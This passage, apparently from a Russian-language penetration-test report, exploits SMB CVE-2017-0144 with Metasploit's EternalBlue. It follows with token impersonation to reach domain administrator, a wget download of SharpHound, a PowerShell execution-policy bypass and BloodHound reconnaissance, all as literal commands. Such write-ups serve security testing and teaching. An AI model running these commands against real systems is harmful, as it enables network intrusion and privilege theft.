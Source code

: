 ```
 49154/tcp open  msrpc              Microsoft Windows RPC
 49155/tcp open  msrpc              Microsoft Windows RPC
 49156/tcp open  msrpc              Microsoft Windows RPC
 49157/tcp open  msrpc              Microsoft Windows RPC
```
### 10.20.239.5
### 10.20.239.6
### 10.20.240.14

Имеют уязвимость в Windows-реализации протокола SMB (**CVE-2017-0144**), поэтому мы можем успешно использовать эксплоит под кодовым именем **Eternalblue**.

Для эксплуатации уязвимости выберем хост1.

На машине с Kali Linux выполним последовательность команд:

**msfconsole** - запуск Metasploit Framework
**use exploit/windows/smb/ms17_010_eternalblue** - выбираем эксплоит
**set RHOSTS хост1** - устанавливаем хост1 как цель для атаки
**run** - запускаем эксплоит

После удачной эксплуатации уязвимости мы получаем сессию meterpreter

**Patch**
1. Установка последних обновлений на windows
### Получение сессии администратора домена company.local

Выполним последовательность команд для получения сессии администратора домена company.local на 10.20.239.6 

**getuid** - выводим пользователя, на котором работает сервер meterpreter на хост1
Вывод команды: NT AUTHORITY\SYSTEM
По сути это означает, что мы работаем от самой "мощной" локальной учетной записи Windows.

Далее проведем технику, называемую "**Token Impersonation**"

Если кратко, так называется метод, с помощью которого локальный администратор Windows может украсть токен безопасности другого пользователя, чтобы выдавать себя за этого пользователя и выполнять команды от его лица.

**load incognito** - загружаем в meterpreter расширение incognito
**list_tokens -u** - получаем список доступных токенов
**impersonate_token company.local\\Administrator** - проводим Impersonation с одним из доступных токенов
**getuid** - после успешного выполнения прошлой команды проверяем, на каком пользователе работает meterpreter сейчас. Действительно, сейчас мы можем работать от имени company.local\Administrator

После получения прав администратора домена, загрузим на 10.20.239.6 файл скрипта PowerShell - SharpHound.ps1, который позволит нам провести разведку доменной сети. 

**wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1** - в другой вкладке откроем терминал и на машину с Kali Linux загрузим SharpHound.ps1
**upload SharpHound1.ps1** - загружаем /home/kali/SharpHound.ps1 в папку C:\Windows\system32\
**shell** - запускаем Windows Shell от лица администратора домена company.local
**powershell -ep bypass** - получаем оболочку PowerShell вместо стандартной
**. .\SharpHound.ps1** - запускаем сценарий, который "подгрузит" необходимые команды в оболочку PowerShell
**Invoke-BloodHound -CollectionMethod All** - запускаем сбор информации о доменной сети

